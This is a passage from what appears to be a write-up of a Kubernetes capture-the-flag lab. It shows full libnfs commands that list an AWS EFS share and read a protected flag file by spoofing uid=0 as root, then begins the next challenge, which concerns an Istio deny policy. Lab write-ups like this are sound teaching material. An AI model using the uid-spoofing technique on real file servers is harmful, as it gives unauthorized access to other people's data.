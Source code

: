 ```shell
;; Query time: 4 msec
;; SERVER: 10.100.13.164#53(10.100.13.164) (UDP)
;; WHEN: Wed Jul 17 22:24:34 UTC 2024
;; MSG SIZE  rcvd: 153
```

After spinning my wheels for a bit (and consulting another writeup), I found the `nfs-ls` and `nfs-cat` commands, which allow a user to execute `ls` and `cat` on AWS EFS instances. I tested this out by enumerating the directory:
```shell
player@wiz-k8s-lan-party:/efs$ nfs-ls nfs://192.168.124.98/
```

However, that froze, so I did some poking around the [libnfs](https://github.com/sahlberg/libnfs) documentation, which seemed to be the library I was using, and it turns out it defaults the NFS version to 3, when AWS EFS [uses version 4](https://docs.aws.amazon.com/efs/latest/ug/whatisefs.html). Specifying the version enumerates the contents of `/efs`:
```shell
player@wiz-k8s-lan-party:/efs$ nfs-ls nfs://192.168.124.98/?version=4
----------  1     1     1           73 flag.txt
```

Trying to access the `flag.txt` file with `nfs-cat` results in what I assume to be a permissions error:
```shell
player@wiz-k8s-lan-party:/efs$ nfs-cat "nfs://192.168.124.98//flag.txt?version=4"
Failed to open file /flag.txt: open call failed with "NFS4: (path /) failed with NFS4ERR_ACCESS(-13)"
Failed to open nfs://192.168.124.98//flag.txt?version=4
```

Luckily, [libnfs](https://github.com/sahlberg/libnfs) allows specifying which `uid` you're sending to the server using the `uid` parameter. This means we can make the EFS server think we're logged in as the root user:
```shell
player@wiz-k8s-lan-party:/efs$ nfs-cat "nfs://192.168.124.98//flag.txt?version=4&uid=0"
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```


# Bypassing Boundaries
*## The Beauty and The Ist
Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.*

We get a policy document also that I certainly noticed immediately and not after 20 minutes of running around in circles:
```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```
